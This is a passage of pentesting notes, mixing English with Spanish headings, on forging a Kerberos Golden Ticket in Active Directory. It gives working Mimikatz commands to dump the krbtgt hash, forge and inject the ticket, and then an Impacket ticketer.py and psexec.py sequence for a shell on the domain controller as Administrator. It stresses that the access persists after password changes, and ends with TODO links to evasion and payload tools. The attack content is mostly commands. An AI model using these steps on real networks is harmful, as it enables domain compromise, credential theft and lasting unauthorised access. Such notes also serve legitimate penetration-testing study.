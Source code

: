 ```powershell
lsadump::lsa /inject /name:krbtgt
```

We will copy this information to a file, as it has some parameters that we need to create the `Golden Ticket`. Then, we will create the `Golden Ticket` whit the following command:

```powershell
kerberos::golden /domain:domain.local /sid: {SID} /rca:{NTLM HASH} /user:Administrator /ticket:golden.kirbi
```

This will generate a `golden.kirbi` file that has the mentioned `Golden Ticket`


##### Acceder a los recursos privilegiados del DC

In most cases, we can't access the privileged resources in the `DC`. If we for example try, with the  `dir\\DC\c$ ` command, to list the content of the `C:` volume in the `DC`, we can see that we can't. As we have seen, we can have a `Golden Ticket` from the DC. Having this ticket, we can use the following command in the target machine, using `Mimikatz`, to do  the  `PassTheTicket`  attack and thus, having enabled privileged resources:

```powershell
kerberos::ptt golden.kirbi
```

##### Convertir Golden Ticket a Ccache

Once we have a `Golden Ticket` in `kirbi` format, we can convert it to `ccache` file. First, using `ticketer.py`, we convert the ticket:

```bash
ticketer.py -nthash {NTLM HASH} -domain-sid {SID} -domain domain.local
```

xOnce we have the `ccache` file, we can use the following commands to connect to the target machine:

```bash
export KRB5CCNAME=/home/g2jz/Administrador.ccache
```

```bash
psexec.py -n -k domain.local/Administrator@DC cmd.exe
```

This will allow us to connect to the server using Kerberos authentication. That means that if the  `Administrator` decides to change his user password, we will be able to access to the target machine regardless.


### Salsa tools

TODO
https://github.com/Hackplayers/Salsa-tools


### Ebowla

TODO
https://github.com/Genetic-Malware/Ebowla-

